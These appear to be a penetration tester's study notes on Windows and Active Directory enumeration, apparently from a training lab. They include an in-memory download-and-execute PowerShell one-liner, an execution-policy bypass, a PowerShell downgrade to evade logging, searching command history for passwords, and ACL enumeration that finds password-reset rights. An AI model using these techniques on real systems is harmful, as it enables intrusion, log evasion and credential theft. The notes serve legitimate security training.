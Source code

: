 #### Basic Enumeration Commands

| **Command**                                             | **Result**                                                                                 |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%` or `$env:USERDOMAIN`                | Displays the domain name to which the host belongs                                         |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |
| `systeminfo`                                            | Covers all above commands                                                                  |
# Using PowerShell
| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 | With this, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                              |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
| `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers`                                  | This retrieves a list of all domain controllers in the **current Active Directory domain**.                                                                                                                                                   |
## Downgrade Powershell
Powershell event logging was introduced with version 3.0 onwards. If  #evasive required, we can try to downgrade Powershell.
```powershell
PS > Get-host
PS > powershell.exe -version 2
```
All executed commands are logged in `Applications and Services Logs` > `Microsoft` > `Windows` > `PowerShell` > `Operational`. 
# Network Information
| **Networking Commands**              | **Description**                                                                                                  |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                             | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                      | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                        | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show allprofiles` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |
>`arp -a` and `route print` could discover new pivots to different network segments in any environment.
# [[WMIC]]
# [[Net]]
# [[Dsquery]]
# ACL Enumeration
[[PowerView#ACL Enumeration|> Using PowerView]]
## 1. [[Get-ADUser]]
Create a list of Domain users
```powershell
PS > Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
## 2. [[Get-ACL]]
Loop each user to get ACL information for each domain. `Access property` will give us information about access rights and finally we set the `IdentityReference` property to the user we are in control of (or looking to see what rights they have), in this case, `wley`.
```powershell
PS > foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

Path                  : Microsoft.ActiveDirectory.Management.dll\ActiveDirectory:://RootDSE/CN=Dana 
                        Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
InheritanceType       : All
ObjectType            : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : INLANEFREIGHT\wley
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
```
- Lookup the `ObjectAceType` online or reverse-search using PS
```powershell
PS > $guid= "00299570-246d-11d0-a768-00aa006e0529"
PS > Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

Name              : User-Force-Change-Password
DisplayName       : Reset Password
DistinguishedName : CN=User-Force-Change-Password,CN=Extended-Rights,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
rightsGuid        : 00299570-246d-11d0-a768-00aa006e0529
```